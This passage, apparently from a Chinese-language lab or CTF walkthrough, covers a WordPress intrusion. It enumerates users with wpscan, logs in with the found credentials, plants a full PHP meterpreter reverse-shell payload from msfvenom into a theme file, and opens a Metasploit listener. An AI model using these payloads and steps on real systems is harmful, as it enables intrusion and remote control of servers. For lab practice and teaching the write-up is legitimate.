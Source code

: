```shell
cmseek -u http://192.168.30.134/wordpress #未找到
wpscan --url http://192.168.30.134/wordpress --enumerate u
```

![image-20221207160750307.png](https://img.ghostliner.top/2YXdUs.png)

获取用户名：victor

[Log In ‹ Focus — WordPress](http://192.168.30.134/wordpress/wp-login.php)登录 victor,follow_the_ippsec。进入后台。

#### 反弹 shell

查找漏洞，上传文件。

主题编辑器中发现`secret.php`是可以更新的

**创建 shell 代码**

使用 msfvenom，创建反弹连接脚本

```shell
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.30.130 lport=7777 -o shell.php
# lhost 攻击者ip
# lport 攻击者端口
```

shell.php

```php
<?php /**/ error_reporting(0); $ip = '192.168.30.130'; $port = 7777; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

保存到 secret.php 并上传

**开启监听**

使用 msfcosole，设置并开启监听，查找版本漏洞

```
msf6> use exploit/multi/handler
msf6> set payload php/meterpreter/reverse_tcp
msf6> set lhost 192.168.30.130
msf6> set lport 7777
# 开启监听
msf6> exploit
meterpreter>
```
